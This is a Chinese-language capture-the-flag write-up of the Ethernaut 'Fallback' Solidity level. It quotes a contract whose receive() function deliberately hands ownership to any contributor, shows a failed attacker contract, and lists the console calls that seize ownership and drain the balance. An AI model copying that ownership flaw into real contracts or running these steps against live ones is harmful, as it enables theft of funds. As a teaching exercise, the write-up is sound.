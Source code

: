 # Fallback

## 要求:
```txt
仔细看下面的合约代码.

通过这关你需要

获得这个合约的所有权
把他的余额减到0
  这可能有帮助

如何通过与ABI互动发送ether
如何在ABI之外发送ether
转换 wei/ether 单位 (参见 help() 命令)
Fallback 方法
```


## 代码分析:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether); // 发送的token不能小于0.001 ether
        contributions[msg.sender] += msg.value;
        // 这里更改了owner权限
        if (contributions[msg.sender] > contributions[owner]) { 
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        // owner可以转走所有的余额
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        // 接收到token的时候，有个判断，这里可以更改owner
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

按照要求，有2个函数可以获取到合约的所有权。
分别是2个`payable`函数。但是默认的`receive`函数，需要判断`contributions[msg.sender]>0`

这里就有2个攻击点:
1:我们需要先调用`contribute`函数，贡献一点wei.

然后调用一个send活着transfer函数，就能获取到owner。最后调用`withdraw`清空balance.

2: 在`constructor`中:合约的部署者拥有`contributions[msg.sender] = 1000 * (1 ether);`，因此我们只要在`contribute` 贡献的token大于这个就行了。
但是呢，先做有一个问题，`require(msg.value < 0.001 ether);`,每次只能小于0.001 ether，需要经过多轮才能完成定时1000 ether。

```js
web3.utils.toWei('0.001','ether');

1000000000000000

await contract.contributions(await contract.owner()).then(v => v.toString())


1000000000000000000000
```


因此最终决定使用路径1


## 使用remix作为IDE
![](./res/fallback1.png)


## 最开始的错误尝试

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract FallBackPwn{
    address public _target;
    address public owner;
    event Log(uint value);
    constructor(address target_) payable {
        _target=target_;
        owner = msg.sender;
    }

    function pwn()public{
        // first call contribute to send some wei
        address(_target).call{value:1}(abi.encodeWithSignature("contribute()"));

        // then call the default recive callback
        // to take ownership
        address(_target).call{value:1}("");
        
        // call the witehdraw
        address(_target).call(abi.encodeWithSignature("withdraw()"));
    }
    receive() external payable {
        emit Log(msg.value);
        payable(owner).call{value:msg.value}("");
    }
}
```

错误原因：
因为目标合约是设置`msg.sender`为新的`owner`.但是我是写了一个新的合约。因此这个合约调用目标合约的时候，实际的`msg.sender`其实是这个新合约的地址。

## 解题

首先通过 `contribute`贡献一点token.
`await contract.contribute({value:1})`

```js
await contract.getContribution().then(v=>v.toString())
'1'
```

然后通过通过转账调用默认的`receive`函数。
我之前不这么调用就是不知道调用那个发送的函数，最后经过学习，才知道了tx也有全局变量`sendTransaction`


`await contract.sendTransaction({value:1})`
哎此时再去看,已经成功设置了owner。
```js
await contract.owner()
'0x4F6057B98A87ce5995BFEd7489217605cCF2dB88'
await player
'0x4F6057B98A87ce5995BFEd7489217605cCF2dB88'
```
最后调用`withdraw()`转账就ok。

`await contract.withdraw()`